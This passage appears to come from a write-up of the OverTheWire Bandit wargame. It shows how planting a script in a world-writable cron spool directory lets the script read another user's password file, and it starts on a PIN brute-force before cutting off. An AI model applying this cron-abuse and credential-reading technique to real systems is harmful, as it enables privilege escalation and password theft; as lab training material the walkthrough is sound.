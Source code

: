 According to the `echo` message, this script should be executing and deleting all the scripts in `/var/spool/bandit24/foo`.

So, presumably, if that `foo` directory is writable by `bandit23` then we could write a script. Copy it into that directory, and then simply wait for the cronjob to activate and run our script. Let's check.

```
$ ls -l /var/spool/bandit24/
total 4
drwxrwx-wx 62 root bandit24 4096 Jun 17 13:51 foo
```

Note the atypical `w` in the "other" portion of the directory permissions. That means we'll be able to copy in any scripts we'd like.

There are plenty of different ways you could solve this, but the simplest is to send the contents of the bandit24 password file to a new file which we can read. Here's an example solution.

```bash,linenos
#!/bin/sh
mkdir -p /tmp/cblanken_L24
cat /etc/bandit_pass/bandit24 > /tmp/cblanken_L24/pass.txt
```

Don't forget to swap in your own temporary directory name and make your script file executable with `chmod`.

```
$ chmod +x solve.sh
```

Then copy your script into `/var/spool/bandit24/foo` and wait for it to be executed.

```
$ cp solve.sh /var/spool/bandit24/foo/
```

The cronjob is triggered every minute, so you shouldn't have to wait long.

```
$ cat /tmp/cblanken_L24/pass.txt
[REDACTED LEVEL 24 PASSWSORD]
```

### Level 24

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. You do not need to create new connections each time

There are a lot of possible ways to solve this, but I recommend splitting it into two parts.

1. First we need to generate these 4 digit PINs
2. Then we'll send them to port 30002.

#### Generating PINs

One convenient way to do this is with the [seq](https://www.man7.org/linux/man-pages/man1/seq.1.html) command which can generate sequences of numbers.


[^1]: Just like almost every cryptographic system, it's possible for SSH to be used incorrectly, thus [compromising it's security](https://sandflysecurity.com/blog/ssh-key-compromise-risks-and-countermeasures/).
[^2]: SSL and TLS both commonly refer to [Transport Layer Security](https://en.wikipedia.org/wiki/Transport_Layer_Security) which is a protocol designed for secure communications over computer networks. SSL (Secure Sockets Layer) is a legacy term referring to the precursor to TLS, but the terms are often used interchangeably. However, modern applications should not be communicating via SSL since its final version (SSL 3.0) was deprecated in 2015.
[^3]: Ports 1-1024 are privileged ports and can't be used without root permissions. That's because commonly known services are hosted on these ports and should ideally only be accessible by a system administrator. Anything from 1025 to 65535 should be fine though. If by chance you receive an error message of `nc: Address already in use`, then try another.
[^4]: Some programs, in particular archiving and compression utilities like `tar`, `gzip`, and `bzip2` will refuse to operate on files without an appropriate file extension, but most programs will instead read the first few bytes of a file to determine it's type. Commonly known as [magic numbers](https://en.wikipedia.org/wiki/List_of_file_signatures)